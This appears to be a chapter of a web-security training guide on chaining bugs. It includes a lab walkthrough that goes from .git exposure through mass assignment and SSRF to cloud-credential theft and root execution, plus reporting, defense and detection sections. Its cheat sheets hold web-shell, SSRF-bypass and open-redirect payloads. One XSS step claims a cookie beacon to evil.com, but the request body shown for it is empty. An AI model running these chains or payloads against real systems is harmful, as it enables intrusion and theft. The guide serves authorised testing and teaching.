**`ffuf`** — "Fuzz Faster U Fool," a Go-based web fuzzer for content and parameter discovery. It replaces the marker `FUZZ` in a request with each line of a wordlist and reports responses by status/size, so you can brute-force paths, params, and vhosts fast.

```bash
sudo apt install ffuf -y     # or: go install github.com/ffuf/ffuf/v2@latest
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
     -u https://acmenotes.lab/FUZZ -mc 200,301,302,401,403 -t 50
#   -w wordlist   -u URL with FUZZ marker   -mc match these HTTP codes   -t threads
```

**`jq`** — a command-line JSON processor. It parses, filters, and reshapes JSON so you can pull one field out of an API response in a pipeline.

```bash
sudo apt install jq -y
curl -s https://acmenotes.lab/api/v2/me | jq '.id, .role'
#   '.field'  selects a field;  jq pretty-prints and lets you script over JSON
```

**`curl`** — the workhorse HTTP client. Flags we'll lean on: `-s` silent, `-i` include response headers, `-H` add header, `-d` POST body, `-X` method, `-b`/`-c` cookie jar, `--path-as-is` to stop curl normalising `../`.

### Step 0 — Recon & surface map

```bash
ffuf -w raft-medium-directories.txt -u https://acmenotes.lab/FUZZ -mc all -fc 404 -t 50
# api            [Status: 301]
# static         [Status: 301]
# .git           [Status: 200]   <-- exposed VCS metadata
```

An exposed `.git` — dump it and read server source:

```bash
pip install git-dumper --break-system-packages
git-dumper https://acmenotes.lab/.git ./acmenotes-src
# [+] Fetched .git/config ... [+] Rebuilt working tree
grep -rInE "internal|admin|169.254|assign|is_admin" ./acmenotes-src | head
# app/api/users.py:88:  ADMIN_API = "http://internal-admin.acme.local:8080"
# app/api/signup.py:23:  user = User(**request.json)   # <-- mass assignment smell
# app/models.py:14:  is_admin = db.Column(db.Boolean, default=False)
```

Two footholds already: an **internal hostname** (`internal-admin.acme.local`, chain fuel for later SSRF) and the **mass-assignment smell** (`User(**request.json)` blindly builds a user from client JSON, including the `is_admin` field).

### Step 1 — BOLA read (enumerate users)

```bash
# Register a normal account and grab a token
curl -s -X POST https://acmenotes.lab/api/v2/signup \
  -H 'Content-Type: application/json' \
  -d '{"email":"me@evil.com","password":"Passw0rd!"}' | jq
# {"id":5011,"role":"user","token":"eyJ..."}

TOKEN=eyJ...
# Object IDs are sequential — walk them
for id in 1 2 3 42; do
  curl -s https://acmenotes.lab/api/v2/users/$id -H "Authorization: Bearer $TOKEN" \
   | jq -c '{id,email,role}'
done
# {"id":1,"email":"root@acme.io","role":"admin"}
# {"id":2,"email":"support@acme.io","role":"support"}
# {"id":3,"email":"jane@acme.io","role":"user"}
# {"id":42,"email":"cto@acme.io","role":"admin"}
```

**BOLA confirmed** (P1): any authenticated user reads any user object. We now know admin ids (1, 42) and the support role exists.

### Step 2 — Mass assignment (escalate to admin)

The `.git` source told us signup does `User(**request.json)`. Send the hidden `is_admin` field:

```bash
curl -s -X POST https://acmenotes.lab/api/v2/signup \
  -H 'Content-Type: application/json' \
  -d '{"email":"admin@evil.com","password":"Passw0rd!","is_admin":true,"role":"admin"}' | jq
# {"id":5012,"role":"admin","token":"eyJ...ADMIN..."}

ATOKEN=eyJ...ADMIN...
curl -s https://acmenotes.lab/api/v2/me -H "Authorization: Bearer $ATOKEN" | jq '.role'
# "admin"
```

**Mass assignment confirmed** (P2): we minted an admin account at signup. Escalation complete without touching a password.

### Step 3 — Reach the internal admin API via SSRF

We're admin in the app, but the *internal* admin API (`http://internal-admin.acme.local:8080`, from the `.git` leak) isn't exposed publicly. The avatar-import feature fetches server-side (P3). Point it at the internal host:

```bash
curl -s -X POST https://acmenotes.lab/api/v2/profile/avatar \
  -H "Authorization: Bearer $ATOKEN" -H 'Content-Type: application/json' \
  -d '{"url":"http://internal-admin.acme.local:8080/status"}'
# {"error":"Not an image","fetched":"{\"service\":\"admin-api\",\"version\":\"1.4\",\"auth\":\"none-from-internal-net\"}"}
```

The internal API trusts the internal network and requires **no auth** from inside — a classic "soft interior." SSRF just gave us an unauthenticated request from *inside* the perimeter.

### Step 4 — SSRF to cloud metadata → IAM creds

The same SSRF reaches the metadata service (IMDSv1 in this lab):

```bash
curl -s -X POST https://acmenotes.lab/api/v2/profile/avatar \
  -H "Authorization: Bearer $ATOKEN" -H 'Content-Type: application/json' \
  -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'
# {"error":"Not an image","fetched":"acmenotes-app-role"}

curl -s -X POST https://acmenotes.lab/api/v2/profile/avatar \
  -H "Authorization: Bearer $ATOKEN" -H 'Content-Type: application/json' \
  -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/acmenotes-app-role"}'
# {"error":"Not an image","fetched":"{\"AccessKeyId\":\"ASIAEXAMPLE\",\"SecretAccessKey\":\"wJalrEXAMPLE\",\"Token\":\"IQoJEXAMPLE\",...}"}
```

### Step 5 — From cloud identity to RCE

```bash
export AWS_ACCESS_KEY_ID=ASIAEXAMPLE AWS_SECRET_ACCESS_KEY=wJalrEXAMPLE AWS_SESSION_TOKEN=IQoJEXAMPLE
aws sts get-caller-identity
# {"Arn":"arn:aws:sts::111122223333:assumed-role/acmenotes-app-role/i-0abc123"}
aws iam list-attached-role-policies --role-name acmenotes-app-role 2>/dev/null
# ... AmazonSSMFullAccess   <-- overprivileged
INSTANCE=$(aws ec2 describe-instances --query 'Reservations[].Instances[].InstanceId' --output text | awk '{print $1}')
aws ssm send-command --instance-ids "$INSTANCE" \
  --document-name "AWS-RunShellScript" \
  --parameters 'commands=["id","hostname"]' --query 'Command.CommandId' --output text
# 5c9f...   (command queued)
aws ssm get-command-invocation --command-id 5c9f... --instance-id "$INSTANCE" \
  --query 'StandardOutputContent' --output text
# uid=0(root) gid=0(root) groups=0(root)
# ip-10-0-3-14
```

**RCE as root** via the overprivileged instance role and SSM. The full chain:



### Step 6 — Alternate finish: stored XSS on support agents

Even without cloud creds, the support-ticket stored-XSS (P5) is a second path to compromise. As a *normal* user, file a ticket:

```bash
curl -s -X POST https://acmenotes.lab/api/v2/tickets -H "Authorization: Bearer $TOKEN" \
 -H 'Content-Type: application/json' -d '{"subject":"help","body":""}'
# {"id":9001,"status":"open"}
```

When a support agent opens ticket 9001 in the admin panel, their session cookie beacons to `evil.com`. **Two independent chains to critical impact from the same target — exactly the redundancy a strong report demonstrates.**

### Lab writeup: what to actually put in the report

A triager wants the *minimal reproducible chain*, numbered, each step with request/response, plus a one-paragraph impact statement and remediation per link. We'll formalise this in Part 12.

---

## Part 11: Chaining in CTFs vs. Bug Bounty

The chaining muscle is the same in both arenas, but the constraints differ, and knowing the difference makes you faster in each.

| Aspect | CTF | Bug Bounty |
|--------|-----|------------|
| Is a chain present? | Guaranteed by design | You must *discover* one exists |
| Scope | The box/challenge is the scope | Strict program scope; out-of-scope = no pay + possible ban |
| Destructive testing | Fine — it's a lab | Forbidden; PoC must be non-destructive & minimal |
| Data access | Read the flag, done | Access *only enough* to prove impact; never exfiltrate real PII |
| Reward | Points/flag | $$$, tied to demonstrated impact |
| Time pressure | Fixed window | Ongoing; duplicates race other hunters |

**CTF chains** are typically linear and author-signposted: an unusual file extension hints at an upload bypass; a `?page=` parameter screams LFI → log poisoning → RCE; a robots.txt entry points at the next step. The skill is recognising the intended path quickly.

**Bug-bounty chains** are found by *inventory + imagination* (Parts 2–3). The danger is scope and destructiveness: an SSRF PoC that reads `iam/security-credentials/` is fine to *demonstrate*, but actually pillaging S3 buckets full of customer data can violate the program's rules and the law. The professional move is to prove the *capability* (show you retrieved credentials, redact them, call `sts get-caller-identity` to prove validity) and stop — then let the program remediate. Document exactly where you stopped and why.

**Ethics/lawful-use framing:** every technique in this chapter is for authorised testing only — your own lab, an explicit program scope, or a signed engagement. Chaining amplifies impact, which means it amplifies *harm* if done outside authorisation. Minimise blast radius, never access more data than needed to prove the point, and report promptly.

---

## Part 12: Reporting and Scoring a Chain

A chain is only worth what you can convince the program it's worth, and CVSS is the language they use. Score the **chain's end impact**, not the weakest link.

### Structure of a great chained report

```text
Title: [Critical] Unauthenticated RCE via .git disclosure -> mass assignment
       -> SSRF -> IMDS credential theft

Summary (2-3 sentences): the whole chain in plain language + final impact.

Impact: what an attacker achieves (RCE as root / full ATO of any account /
        mass PII access). State the business consequence.

Chain / Steps to Reproduce:
  1. [Info disclosure] .git exposed -> source reveals mass-assignment field
     Request / Response (redacted secrets)
  2. [Mass assignment] signup with is_admin:true -> admin account
  3. [SSRF] avatar import reaches 169.254.169.254
  4. [IMDS] retrieve role creds (REDACTED, sts get-caller-identity proof)
  5. [RCE] SSM RunShellScript -> id = uid=0

Proof: screenshots/video, sts caller-identity output, id output.
       NOTE: no customer data accessed; stopped at capability proof.

Remediation (per link): remove .git; allow-list signup fields; block egress
       to 169.254.169.254 + enforce IMDSv2; least-privilege the instance role.

CVSS: 9.8 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H) with justification.
```

### CVSS: score the destination

For the lab chain, the endpoint is unauthenticated RCE:

| Metric | Value | Why |
|--------|-------|-----|
| Attack Vector | Network (N) | reachable over the internet |
| Attack Complexity | Low (L) | reliable, no special conditions |
| Privileges Required | None (N) | starts unauthenticated (.git + signup) |
| User Interaction | None (N) | no victim needed for the RCE path |
| Scope | Changed (C) | app compromise → cloud account/root |
| C/I/A | High/High/High | root RCE |

**Base score ≈ 9.8 (Critical).** Contrast the stored-XSS-on-support path: it needs an agent to open the ticket (UI:R), lowering the score but still High. Report *both* and score each; showing multiple independent paths to critical impact strengthens the case and guards against a triager arguing one link is unreachable.

**Common scoring mistakes:** scoring the *entry* bug (the open redirect, the info leak) instead of the chain's outcome; forgetting Scope-Changed when app compromise crosses into cloud/OS; and under-claiming UI when the RCE path genuinely needs no victim.

---

## Part 13: Detection & Defense Angle

Defenders rarely stop chains by patching the single "critical" link — because the critical *is* the composition. The durable defenses break the *connections* between primitives and detect the multi-stage behaviour.

### Structural defenses that break chains

- **Least privilege everywhere.** The lab RCE only happened because the instance role held `AmazonSSMFullAccess`. A tightly-scoped role turns "IAM creds stolen" into "IAM creds that can do almost nothing." Least privilege caps the *blast radius* of any foothold.
- **Centralised, deny-by-default authorization.** A single policy layer that every object/action request passes through kills BOLA/BFLA chains at the source; scattered per-handler checks are where the gaps that feed chains live.
- **Egress filtering + IMDSv2.** App servers should not be able to reach `169.254.169.254` or arbitrary internal hosts. This severs the SSRF→metadata and SSRF→internal-API links even if the SSRF bug remains.
- **Strict allow-list input validation on state that matters.** Explicit field allow-lists on signup/update (never `Model(**request.json)`) kill mass assignment. Validated, resolved-IP redirect allow-lists kill open-redirect and SSRF-via-redirect.
- **Output encoding + CSP in every rendering context**, especially admin/support panels — high-privilege XSS victims.
- **Don't ship chain fuel.** Strip `.git`, source maps, and stack traces from production; disable debug consoles. Information disclosure is the reconnaissance layer of nearly every chain.

### Detecting a chain in progress

Individual requests in a chain look benign; the *sequence* is the signal.



| Chain link | Detection signal | Where |
|------------|-----------------|-------|
| BOLA enumeration | one principal reading many sequential object IDs, many 200s/403s | app logs, WAF |
| Mass assignment | request bodies containing `is_admin`/`role`/`verified` on signup/update | WAF, app validation logs |
| SSRF | outbound app connections to link-local/RFC1918/metadata IPs | egress firewall, VPC flow logs |
| Stolen IMDS creds | AWS API calls from an IP/ASN the instance never uses; `GetCallerIdentity` from odd geo | CloudTrail + GuardDuty (`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`) |
| Upload→RCE | new executable file in webroot; web process spawning shells | FIM, EDR, `auditd` execve on `www-data` |

**IR use case:** when investigating a breach, reconstruct the chain backwards from the impact — root RCE → which creds → how obtained (CloudTrail shows the exfil IP) → SSRF request in app logs → who made it → mass-assigned admin account → the `.git` that leaked the field. Each backward step names a control that would have severed the chain, which is precisely how you turn an incident into prioritised hardening.

**Blue team usage:** GuardDuty's `InstanceCredentialExfiltration` finding fires when instance-role credentials are used from outside the instance — one of the highest-signal alerts for exactly the SSRF→IMDS chain, and a reason attackers increasingly avoid moving stolen creds off-box.

---

## Final Revision / Summary

- **Chaining is impact synthesis.** Individually-modest bugs compose into critical, high-payout findings. Programs and CVSS reward the *story*, not the parts.
- **Think in primitives, not endpoints.** Every bug grants a capability — read, write, execute, redirect/origin, or victim-driven. Inventory them (Part 3) and ask what each is *one step from*.
- **Five stages:** recon → foothold → pivot → escalate → impact → prove. Chaining is iterative; revisit the inventory whenever a new capability appears.
- **Information disclosure is chain fuel** — internal hosts feed SSRF, source maps/`.git` reveal hidden endpoints and mass-assignment fields, versions feed known-CVE exploitation.
- **Access-control chains:** BOLA read (enumerate) + BOLA/BFLA write or impersonate → mass account takeover; password-reset flows (host-header injection, token leak, open redirect) are ATO hotspots.
- **Open redirect + OAuth** → token theft → ATO; the bare open redirect is worthless, the chain is a critical.
- **Self-XSS + login CSRF**, and **stored XSS in admin/support context**, turn "informative" XSS into admin takeover; on-origin XSS defeats CSRF tokens and SameSite.
- **SSRF → metadata → IAM creds → RCE** is the crown-jewel server-side chain; filter bypasses (encoding, DNS rebinding, redirect-into-SSRF) defeat naive "public URLs only" defenses.
- **Upload bypass + path traversal (or zip-slip)** → web shell in docroot → RCE, then pivot to OS privesc for boot-to-root.
- **Defense breaks connections, not just links:** least privilege, centralised authz, egress filtering + IMDSv2, allow-list validation, CSP/output encoding, and not shipping chain fuel. Detection is about correlating the *sequence*.
- **Report the destination:** score the chain's end impact with CVSS, give per-link remediation, prove capability without pillaging real data, and demonstrate multiple paths where they exist.

## Cheat Sheet / Quick Reference

**Primitive → what it's one step from**

| Primitive | Chains toward |
|-----------|---------------|
| Open redirect | OAuth token theft, SSRF filter bypass, DOM XSS (if `javascript:`) |
| Info disclosure (`.git`, source maps, errors) | hidden endpoints, mass-assignment fields, SSRF target list, known CVEs |
| IDOR/BOLA read | victim enumeration → targeted ATO |
| IDOR/BOLA write + BFLA | direct account takeover / impersonation |
| Mass assignment | privilege escalation (`is_admin`, `role`, `verified`) |
| Self-XSS | + login CSRF → victim-context XSS → ATO |
| Stored XSS (admin ctx) | admin session theft → full compromise |
| SSRF | internal APIs, `169.254.169.254` → IAM → RCE |
| File upload | + path traversal / zip-slip → web shell → RCE |
| Host-header injection | password-reset poisoning → ATO |

**Open-redirect bypass quicklist**

```text
//evil.com   ///evil.com   /\evil.com   https:evil.com
https://target.com@evil.com   https://target.com.evil.com
//evil.com/%2e%2e   https://evil.com#@target.com   javascript:alert(1)
```

**SSRF metadata quicklist**

```text
AWS : http://169.254.169.254/latest/meta-data/iam/security-credentials/
GCP : http://metadata.google.internal/computeMetadata/v1/  (Metadata-Flavor: Google)
Azure: http://169.254.169.254/metadata/instance?api-version=2021-02-01 (Metadata: true)
Bypass: 0xA9FEA9FE | 2852039166 | 169.254.169.254.nip.io | userinfo@ | redirect-into-SSRF
```

**Upload-to-RCE quicklist**

```text
Extensions: .phtml .php5 .pht .phar  |  double-ext shell.php.jpg  |  trailing dot/space
Magic bytes: prepend GIF89a;  |  EXIF: exiftool -Comment='<?php system($_GET[c]);?>'
Path: filename=../../var/www/html/shell.php  |  zip-slip entry ../../webroot/shell.php
.htaccess trick: upload .htaccess mapping .jpg to PHP handler, then shell.jpg
```

**Mass-assignment fields to try**

```text
is_admin  admin  role  isAdmin  user_type  privilege  verified  email_verified
account_type  is_staff  permissions  groups  balance  credit  approved
```

**Chained-report skeleton**

```text
Title [Severity] link1 -> link2 -> ... -> impact
Summary | Impact | Steps(per link req/resp) | Proof(redacted) | Remediation(per link) | CVSS(+vector)
```

## Practice Labs & Resources

Train each link, then practise composing them:

- **PortSwigger Web Security Academy** (free) — the best chaining trainer. Do: *OAuth authentication* labs (redirect_uri / token theft), *SSRF* labs (including "SSRF with filter bypass" and "SSRF via open redirect"), *Access control* (all BOLA/IDOR/BFLA labs), *Web cache poisoning*, *Host header* labs (password-reset poisoning), and the *File upload* series. Then the **"Expert"** chained labs that combine several classes.
- **PortSwigger — "Mystery lab challenge"** and any lab tagged multi-step: forces you to discover the chain rather than be told the class.
- **HackTheBox** — retired machines rated Medium/Hard tagged "web": upload-bypass→RCE and SSRF→cloud chains are common (look for boxes with an AWS/localstack theme for the IMDS chain). **HTB Academy** modules: *Attacking Web Applications with Ffuf*, *Server-side Attacks (SSRF/SSTI/etc.)*, *File Upload Attacks*.
- **TryHackMe** — rooms: *OWASP Top 10*, *SSRF*, *Upload Vulnerabilities*, *IDOR*, *OAuth Vulnerabilities*, and boot-to-root rooms where LFI→log-poisoning→RCE chains recur.
- **flAWS.cloud** and **flAWS2.cloud** — purpose-built AWS chains (S3 → metadata → IAM → escalation); the canonical training ground for the SSRF/IMDS half of this chapter.
- **CloudGoat** (Rhino Security Labs) — deploy real vulnerable AWS scenarios (`ec2_ssrf`, `iam_privesc_by_*`) to practise the metadata→IAM→RCE chain end-to-end in your own account.
- **picoCTF / OverTheWire Natas** — Natas is a linear web-chain trainer (each level's foothold unlocks the next); excellent for the "recognise the intended path" CTF muscle.
- **Disclosed reports** — read HackerOne Hacktivity and Bugcrowd disclosures filtered for "chain," "SSRF," "OAuth," and "account takeover." Reverse-engineering how top hunters narrated their chains is the fastest way to learn report craft.

**Practice challenges to attempt after this chapter:**

1. On a PortSwigger OAuth lab, chain the `redirect_uri` weakness with the app's own open redirect to exfiltrate an authorization code, then take over the admin account. Write the report scoring the *chain*, not the redirect.
2. In CloudGoat's `ec2_ssrf` scenario, go from the web SSRF to instance-role credentials to reading the target secret — and document exactly where you'd stop on a real program and why.
3. Build a 3-link chain in a lab of your choice starting from an information-disclosure foothold; produce the full report skeleton (Part 12) and a correct CVSS vector for the end impact.
4. Take a stored-XSS lab and rewrite the PoC so it targets an *admin* rendering context, articulating why that raises the severity from Medium to High.
5. From an upload-bypass lab, achieve a web shell, then (in a boot-to-root box) continue the chain into OS privilege escalation for a full unauth-to-root writeup.
